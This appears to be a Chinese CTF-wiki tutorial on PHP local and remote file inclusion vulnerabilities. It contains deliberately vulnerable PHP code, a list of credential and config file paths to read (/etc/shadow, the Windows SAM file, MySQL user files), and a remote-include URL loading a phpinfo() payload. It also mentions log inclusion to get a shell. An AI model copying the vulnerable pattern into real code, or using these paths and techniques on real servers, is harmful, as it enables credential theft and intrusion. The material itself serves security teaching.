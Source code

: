 # PHP文件包含漏洞

PHP中文件包含函数有以下四种：

> require()
>
> require_once()
>
> include()
>
> include_once()

`include`和`require`区别主要是，`include`在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行；而`require`函数出现错误的时候，会直接报错并退出程序的执行。

而`include_once()`，`require_once()`这两个函数，与前两个的不同之处在于这两个函数只包含一次，适用于在脚本执行期间同一个文件有可能被包括超过一次的情况下，你想确保它只被包括一次以避免函数重定义，变量重新赋值等问题。

## 0. 漏洞产生原因

文件包含函数加载的参数没有经过过滤或者严格的定义，可以被用户控制，包含其他恶意文件，导致了执行了非预期的代码。

示例代码

```php
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```

例如：

`$_GET['filename']`参数开发者没有经过严格的过滤，直接带入了`include`的函数，攻击者可以修改`$_GET['filename']`的值，执行非预期的操作。

## 1. 本地文件包含漏洞

**测试代码：**

```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```

**测试结果：**

通过目录遍历漏洞可以获取到系统中其他文件的内容。

![img](https://image.3001.net/images/20180827/1535362888_5b83c7486a92c.png)

**常见的敏感信息路径：**

`Windows`系统

> c:\boot.ini // 查看系统版本
>
> c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
>
> c:\windows\repair\sam // 存储Windows系统初次安装的密码
>
> c:\ProgramFiles\mysql\my.ini // MySQL配置
>
> c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
>
> c:\windows\php.ini // php 配置信息

`Linux/Unix`系统

> /etc/passwd // 账户信息
>
> /etc/shadow // 账户密码文件
>
> /usr/local/app/apache2/conf/httpd.conf // Apache2默认配置文件
>
> /usr/local/app/apache2/conf/extra/httpd-vhost.conf // 虚拟网站配置
>
> /usr/local/app/php5/lib/php.ini // PHP相关配置
>
> /etc/httpd/conf/httpd.conf // Apache配置文件
>
> /etc/my.conf // mysql 配置文件

## 2. 远程文件包含漏洞

PHP的配置文件`allow_url_fopen`和`allow_url_include`设置为`ON`，`include/require`等包含函数可以加载远程文件，如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。

> allow_url_fopen = On（是否允许打开远程文件）
>
> allow_url_include = On（是否允许include/require远程文件）

**测试代码：**

```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```

通过远程文件包含漏洞，包含`php.txt`可以解析。

```
http://www.ctfs-wiki.com/FI/FI.php?filename=http://192.168.91.133/FI/php.txt
```

`php.txt`内容:

```php
<?php phpinfo(); ?>
```

**测试结果：**

![img](https://image.3001.net/images/20180827/1535361964_5b83c3aceeb21.png)



> 以上只是漏洞的产生原理与简单使用。
>
> 漏洞的具体利用需要根据攻击实际情形考虑。
>
> 同时以上都是对包含漏洞但没有进行限制的情况下进行讨论，实际情况中开发者可能会对文件包含进行限制，首先大多数没有远程包含，同时文件可能进行前后缀的过滤。这就涉及了前后缀的绕过等等。
>
> 常见的使用场景除了获取信息外，可能对session进行文件包含利用，对服务器日志进行包含利用。
>
> 刚才的场景中就是一个利用`nginx`日志结合本地包含漏洞`GetShell`。